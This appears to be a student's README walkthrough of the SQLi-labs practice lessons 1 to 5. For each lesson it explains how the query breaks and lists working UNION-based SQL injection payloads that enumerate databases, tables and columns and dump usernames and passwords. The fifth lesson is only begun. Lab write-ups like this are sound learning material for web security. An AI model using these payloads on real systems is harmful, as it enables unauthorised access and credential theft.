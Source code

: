 Please go-through the readme.md





the questions which i have solved were les-1,2,3,4,5(partially) and i would explain the each and every step
les1:
	so when we give some random input as id=1 we can see the output out there so our main aim is to 
		1.break the query
		2.get the database
		3.get the relation
		4.dump the thing out 
	so when we type something fancy characters like 1' or 1/ we will be getting like 
		***''1'' LIMIT 0,1' so after balancing the quotes it looks like 
			'1'' limit 0,1 ==>1' limit 0,1 
				limit a,b is like a is the starting point and b is the number of records***
	this question is about:***"Breaking single quoted query"***
		so later on we need to find the attributes in the relation of the database so we will using an function order-by initially to just find the number of attributes nad later on we goes to the keyword union select which will combine the  attributes we inputted and gives us the output according to that 
		so by using database() we get the database used 
		so the payloads are:
		1.?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'***
		2.?id=-1' union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- - ***this is for the getting the details of the relation users***
		3.?id=-1' union select 1,group_concat(username),group_concat(password)from security.users-- - ***for the final dumping***
	refered wiki.bi0s and 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	
les2-
		this is about:***just a simple integer***
		payloads used:
			?id=-1 union select 1,2,3-- -      ***since it's an integer and we can find error when we put ?id=-1'***
				?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'
				the details like username and password were present in the relation named 'users' so we need to access it and later on we need to get the names of the colums present in the relation 'users'***
				?id=-1 union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -  ***-->this retrives the attributes of the table users***
as we know the table we can simply get the details of username and password		
				?id=-1 union select 1,group_concat(username),group_concat(password)from security.users-- -  ----->***retreiving the username and password***
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les3:
question is about: "single quote with brackets"
	payloads for dumping:
		when we do 1' we get the error ''1'') LIMIT 0,1' we can see that the double quotes aren't double quotes but they are 2 single quotes and we also have a brace at the end this look like "breaking single quote with bracket           String1 = ‘) OR 1 -- -
"
this can be written as '1 ' ') limit 0,1 which is similar to 1') limit 0,1
so let's proceed with this 1') limit 0,1
***id=-1')-- -***
***?id=-1') union select 1,2,database()-- -*** ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
***?id=-1') union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -***
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
***?id=-1') union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -***
so we got the attributes and we need to get the username,password
***?id=-1') union select 1,group_concat(username),group_concat(password) from security.users-- -***
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les-4:
question is about :double quotes with brackets
	payloads:
		when we do 1' we get the error ""1"") LIMIT 0,1" "breaking double quote with bracket           String1 = ") OR 1 -- -
"
this can be written as "1"") limit 0,1 which is similar to 1") limit 0,1
so let's proceed with this 1") limit 0,1
id=-1")-- -
?id=-1") union select 1,2,database()-- - ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
?id=-1") union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
?id=-1") union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -
so we got the attributes and we need to get the username,password
?id=-1") union select 1,group_concat(username),group_concat(password) from security.users-- -
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
i can succesfully install and execute the sqli-labs
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les5:
	it's all about the double query injection
		in this we can't find any proper error which makes us to dump so we use some functions to dump the data
